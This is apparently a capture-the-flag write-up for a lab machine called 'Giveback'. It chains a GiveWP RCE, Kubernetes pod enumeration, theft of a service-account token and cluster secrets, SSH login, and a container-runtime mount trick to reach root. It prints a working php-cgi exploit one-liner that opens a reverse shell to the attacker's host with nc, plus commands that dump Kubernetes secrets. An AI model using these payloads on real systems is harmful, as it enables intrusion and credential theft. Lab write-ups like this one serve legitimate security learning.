

# scan ports

```
nmap -sV -sC 10.10.11.94
```

- from webalize we realized that website is wordpress



i searched for a cve to  GiveWP plugin and i found an rce cve

https://github.com/EQSTLab/CVE-2024-5932

use it and boom we get an reverse shell 

first thing i realized that we are not a pure system we likely in a contanier or something else

i readed the resolv.conf and i found that

```
search default.svc.cluster.local svc.cluster.local cluster.local
nameserver 10.43.0.10
options ndots:5
```

and its look like we are pod in a kubernates cluster system

you can read kubernates-explain.md to know more what is it and what it do 

ok so first i tired to read our tooken to use it to contact to the api-server

```
ls -la /var/run/secrets/kubernetes.io/serviceaccount/
```

but it gives me no such file or directory it look like is that pod not mounted with serviceaccount directory 

so lets collect some data about the kubernets values and the services that running in this pod

lets see environment values


```
env |grep KUBE
```

it gives me that

```
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_SERVICE_PORT=443
KUBERNETES_PORT_443_TCP=tcp://10.43.0.1:443
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.43.0.1
KUBERNETES_SERVICE_HOST=10.43.0.1
KUBERNETES_PORT=tcp://10.43.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
```

the kubernets service runnig in that ip and port https:10.43.0.1:443

lets see all service that running on the contanier

```
env |grep SERVICE
```

it give me that

```
BETA_VINO_WP_MARIADB_SERVICE_PORT=3306
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_SERVICE_PORT=443
LEGACY_INTRANET_SERVICE_PORT_5000_TCP_PORT=5000
WP_NGINX_SERVICE_PORT_80_TCP=tcp://10.43.4.242:80
WP_NGINX_SERVICE_PORT_80_TCP_PROTO=tcp
LEGACY_INTRANET_SERVICE_SERVICE_HOST=10.43.2.241
LEGACY_INTRANET_SERVICE_PORT_5000_TCP=tcp://10.43.2.241:5000
BETA_VINO_WP_MARIADB_SERVICE_PORT_MYSQL=3306
BETA_VINO_WP_WORDPRESS_SERVICE_PORT=80
BETA_VINO_WP_WORDPRESS_SERVICE_PORT_HTTPS=443
LEGACY_INTRANET_SERVICE_SERVICE_PORT_HTTP=5000
WP_NGINX_SERVICE_SERVICE_HOST=10.43.4.242
WP_NGINX_SERVICE_PORT=tcp://10.43.4.242:80
LEGACY_INTRANET_SERVICE_SERVICE_PORT=5000
LEGACY_INTRANET_SERVICE_PORT_5000_TCP_ADDR=10.43.2.241
WP_NGINX_SERVICE_PORT_80_TCP_ADDR=10.43.4.242
WP_NGINX_SERVICE_SERVICE_PORT_HTTP=80
WP_NGINX_SERVICE_SERVICE_PORT=80
WP_NGINX_SERVICE_PORT_80_TCP_PORT=80
BETA_VINO_WP_WORDPRESS_SERVICE_HOST=10.43.61.204
BETA_VINO_WP_WORDPRESS_SERVICE_PORT_HTTP=80
KUBERNETES_SERVICE_HOST=10.43.0.1
LEGACY_INTRANET_SERVICE_PORT_5000_TCP_PROTO=tcp
LEGACY_INTRANET_SERVICE_PORT=tcp://10.43.2.241:5000
BETA_VINO_WP_MARIADB_SERVICE_HOST=10.43.147.82
```

the only service that is strange and intersting 

```
LEGACY_INTRANET_SERVICE_PORT_5000_TCP_PROTO=tcp
LEGACY_INTRANET_SERVICE_PORT=tcp://10.43.2.241:5000
```

as we see all this service is wordpress and its on port 80 except LEGACY_INTRANET_SERVICE

that pod has a runnig service named legacy-intranet-servicec that runnig in port 5000

lets try to get a reverse shell with it

i found an cve for php-cgi 

https://github.com/watchtowrlabs/CVE-2024-4577

but there is no python in our pod it is just support so i copied this php code from ai


```
php -r '$nuii="rm /tmp/nuii;mkfifo /tmp/nuii;cat /tmp/nuii|sh -i 2>&1|nc 10.10.16.234 4445 > /tmp/nuii"; $o = array("http"=>array("method"=>"POST", "header"=>"Content-Type: application/x-www-form-urlencoded","content"=>$nuii,"timeout"=>4)); $c=stream_context_create($o); $r=@file_get_contents("http://legacy-intranet-service:5000/cgi-bin/php-cgi?--define+allow_url_include%3don+--define+auto_prepend_file%3dphp://input", false,$c); echo $r==false?"":substr($r,0,5000);'
```

and now we have connected to this service pod

lets check if it mounted with service account info directory

```
ls /var/run/secrets/kubernetes.io/serviceaccount/
```

and yea its exsit now we can call the api-server with our token we collected


put the token in envrionment var

```
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
```

then call the api-server with the TOKEN var

```
curl -k -H "Authorization: Bearer $TOKEN" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces/default/secrets
```

this directory namespaces/default/secrets has the master node pass 

it gives to us a base64 master node password format and the user name which called babywryrm  lets decode the password and trying to login with ssh

```
ssh babywryrm@10.10.11.94
#pass **********
```

and boom we logined as user babywryrm with ssh

we can get the user.txt flag

```
cat user.txt
```

# privesc

lets check suid binaryies

```
find / -perm -u=s -type f 2>/dev/null
```

and no thing intersting

lets see if there is a app can we use by sudo with no password

```
sudo -l
```

and yea we found /opt/debug

i typed 

```
sudo /opt/debug --help
```

and it asks me for user password and admin password 

after many attemps to know what is the admin password i put the mariadb-password and it works

# post explotation to make a new privliged pod (contanier)


```
sudo /opt/debug spec
```

i found that creats a config.json

lets reaf it i realized that is the config of the pod (conatiner) you will run using /opt/debug run

so lets exploit it 

that is the intersting part

```
"mounts": [
    {
      "destination": "/proc",
      "type": "proc",
      "source": "proc"
    },
    ....
```


we can mount any thing we need with this syntax


first i tired to mount / and /root but it says too me not premetid

so i  tired to select just the flag (/root/root.txt)

```
    {
      "destination": "/flag/root.txt",
      "type": "none",
      "source": "/root/root.txt",
      "options": ["bind"]
    },
```

but that only will not help anyway we need to read the flag no just mounting into it

so we lets mount /bin/cat to the config and put it in the args place (args place will excute a commnd from the  pod (conatnier) )

```
    {
      "destination": "/bin/cat",
      "type": "none",
      "source": "/bin/cat",
      "options": ["bind"]
    },
```

and args

```
    "args": [
      "/bin/cat",
      "/flag/root.txt"
    ],
```

but i gives to me /bin/cat after many tries i realized we have to mount libraries too because may /bin/cat use a one of them

so lets mount it

```
    {
      "destination": "/lib",
      "type": "none",
      "source": "/lib",
      "options": ["bind"]
    },

    {
      "destination": "/lib64",
      "type": "none",
      "source": "/lib64",
      "options": ["bind"]
    },
```

and i make the directory of the root path we set in my case its directory called rootfs

```
sudo /opt/debug run test
```

and that will run a conatiner with the config.json we inserted

and boom it gives me flag you can also get a inteacive shell by mounting /bin/bash its your choice

and boom we owned giveback! :)